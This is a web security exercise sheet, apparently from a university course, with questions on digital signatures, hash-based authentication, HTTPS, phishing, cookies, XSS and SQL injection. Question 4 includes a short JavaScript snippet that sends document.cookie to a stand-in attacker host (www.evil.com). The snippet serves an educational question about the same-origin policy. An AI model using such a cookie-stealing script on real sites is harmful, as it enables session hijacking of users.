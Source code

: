 # Exercises sheet 3 Web Security

**There will be no written corrections. Exercises will be discussed during the recorded live Q&A. Come and prepare questions.**

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship of or modifying them. How can this be achieved using public-key cryptography?

2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k\|\|x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that xwas not modified by Bill? Justify your answer.

3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k\|\|z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer. 

4. Suppose that you accedently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:

`<script>
img = new Image();
img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
</script>`. Will that be successful? Why or why not?

5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.

6. Is it possible for an attacker to performa phishing attack if the client is using HTTPS? Why or why not? 

7. Explain why, in general, a web server should not be allowed access to cookies set by another web server. 

8. Summarize the difference between persistent and non-persistent cross-site scripting attacks. 

9. Explain why input validation mitigates the risks of SQL injection attacks.

